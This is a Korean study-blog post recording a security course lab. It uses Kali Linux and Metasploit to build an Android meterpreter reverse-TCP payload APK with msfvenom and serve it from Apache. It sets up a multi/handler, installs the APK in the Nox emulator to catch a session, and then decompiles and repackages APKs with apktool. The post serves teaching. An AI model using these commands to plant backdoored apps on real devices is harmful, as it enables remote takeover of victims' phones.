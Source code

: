 ```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 2日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 2日차 수업 정리한 내용입니다.
image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
#published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/8eB-7l7ysX8' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 2일자 수업

### 1. Kali Linux

#### 1-1. Kali Linux & Metasploit

> 先 3줄 요약<br>
> 1. Kali에서 apache2를 실행하여 외부에서 접속 가능한지 확인.
> 2. Kali에서 metasploit console을 실행하여 apk에 악성앱 탑재.
> 3. Nox에서 실행하고, Kali에서 session 확인하기.
{:.lead}

먼저 kali에서다음을 확입합니다.
1. vm 네트워크 NAT 설정
2. sudo service apache2 restart
	웹 페이지를 오픈
3. ip확인(ip addr, ifconfig)
{:.lead}

다음으로 Nox에서
1. 인터넷 브라우저로 ip에 접근하여 nox에서 kali로 접근되는지 확인

그리고 kali에서
1. msfvenom -p android/meterpreter/reverse_tcp LHOST=ip address LPORT=4444 R > apk 
2. sudo cp apk /var/www/html/ # 생성된 악성코드를 웹 배포
3. msfconsole # 메타스플로잇 콘솔 실행
4. use exploit/multi/handler # 핸들러 설정
5. set payload android/meterpreter/reverse_tcp # 페이로드 설정
6. set LHOST ip address # ip설정
7. set LPORT 4444 # 포트 설정
8. set exitonsession false 
9. exploit -j #실행

그리고 Nox에서
10. 인터넷 브라우저로 접근하여 apk설치

마지막으로 kali에서
1. sessions # 세션확인
2. sessions -i
3. sudo cp apk /var/www/html/apk.zip

```bash
tasklist | findstr Nox(nox handler)
netstat  -ano | pid
adb connect 127.0.0.1:62001 #Nox ip, port
```

### 2. Apk Decompile, Re-Package

APK 디컴파일 할 때 JAVA와 apktool이 요구됩니다. APK는 자바 -> 클래스 -> 덱스 -> smali -> java과 같은 구조를 지니고 있습니다.
{:.note}

```shell
java -jar apktool_2.5.0.jar d apk파일명 #d는 디컴파일을 의미
```

```shell
java -jar apktool_2.5.0.jar b apk파일명 #b는 리패키징
```

```shell
d2j-dex2jar.bat apk파일명 #jar파일 생성 = class
```
